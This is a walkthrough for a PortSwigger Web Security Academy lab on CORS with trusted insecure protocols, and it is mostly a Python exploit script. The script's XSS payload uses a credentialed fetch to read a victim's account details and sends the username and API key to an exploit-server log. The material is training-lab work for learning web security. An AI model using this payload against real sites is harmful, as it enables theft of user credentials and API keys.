 ## Web security academy
### Lab Title: CORS vulnerability with trusted insecure protocols
### Lab: 03
Extracting the administrator API-KEY using CORS vulnerability with trusted insecure protocols.

## My Points:

1. **Introduction:** <br>[Portswigger's web security academy](https://portswigger.net/) is a platform that provides practice labs for finding web application vulnerabilities. In this Lab-03 the victim is redirected to the insecure protocols to get the API-KEY.

2. **Technique Fetch Method :**
     - **Fetch Method:** is used to get the resources like XMLHttpRequest, and for details check the references.
     <br>
     
     > Windows: 
     ```
     python lab-03.py
     ```
     
     > Linux:
     ```
     python3 lab-03.py
     ```


3. **Code:**
     - **Define main variables:**
     
        ```    
        # Burp Suite proxy
        proxy_urls = {
          'http': 'http://127.0.0.1:8080',
          'https': 'http://127.0.0.1:8080',
        }
       
        ```
        <br>
        
     - **User inputs:** When the program executes, it takes Lab URL and Exploit Server URL from the user.
      - **Note:** The default exploit server's URL that ends with /exploit used in this code that's why don't change /exploit unless you know how to edit the code.   

        ```        
        if __name__ == "__main__":
         # User input: Lab URL(s)
         k_lab = input("Enter Lab URL: ").strip().rstrip("/").lstrip("https://")
         k_exploit_server = input("Enter Exploit Server URL: ").strip().rstrip("exploit").rstrip("/")

         if (not (k_lab and k_exploit_server)):
             print()
             print("[-] Error! Input URL(s) missing.")
             print("[-] Lab URL: https://a...........c2.web-security-academy.net")
             print("[-] Exploit Server URL: https://exploit-a...........c2.web-security-academy.net/exploit")
             sys.exit()
         else:
             main()
        ```     
     
        - Enter URL: Get lab URL from your browser address bar and paste it.

        - Enter URL: Get Exploit Server URL from your browser address bar and paste it.
    <br>

    - **Main Function:** After giving the required input the main function is called.

        ```        
        def main():
          # Xss injection + account APIKEY request + send APIKEY to exploit server
         cors_access = f"<script>location=\"http://stock.{k_lab}/?productId=1<script>fetch('https://{k_lab}/accountDetails',{{credentials:'include'}}).then(res=>res.json()).then(data=>fetch('{k_exploit_server}/exploit/log?key='%2BencodeURIComponent(data.username%2B':'%2Bdata.apikey)))%3C/script>&storeId=1\"</script>"

         payload = {
             'urlIsHttps':'on',
             'responseFile': '/exploit',
             'responseHead': "HTTP/1.1 200 OK\r\nContent-Type: text/html; charset=utf-8",
             'responseBody': cors_access,
             'formAction':'DELIVER_TO_VICTIM'
         }

         # Send payload to exploit server
         res = requests.post(
             k_exploit_server, 
             data = payload, 
             headers = {'Content-type':'application/x-www-form-urlencoded'},
             proxies = proxy_urls,
             verify = False
             )

         if res:
             api_key = get_apikey()

             if api_key:
                 print('APIKEY: ' + api_key)
             else:
                 print('[-] Error in getting APIKEY.')
         else:
             print('[-] Error in sending payload to exploit server.')          
        ```

       The main points of this function:
     
     1. Location is used to redirect to the insecure path.
     2. Xss attack injected to the product ID.
     3. In Xss a **<script>** is injected using fetch method, and fetch method credentials are also included in the request. 
     4. After getting a response, again a fetch method is used to send username and apikey to the exploit server. I am only sending ( username : apikey ) in this format.
     5. Then get_apikey() function is called. In this function, API-KEY is extracted using regular expression.
     <br>
     
     ```        
     def get_apikey():
          res = requests.get(k_exploit_server + '/log', proxies=proxy_urls, verify=False)

         if res:
             data = requests.utils.unquote(res.text)
             pattren = re.compile('administrator:(\S*)')
             result = pattren.search(data)

             if result and result.group(1) is not None:
                 return result.group(1)
             else:
                 return False
          
      ```


## References:
   - [https://portswigger.net/web-security/dashboard](https://portswigger.net/web-security/dashboard)
   - [https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API)

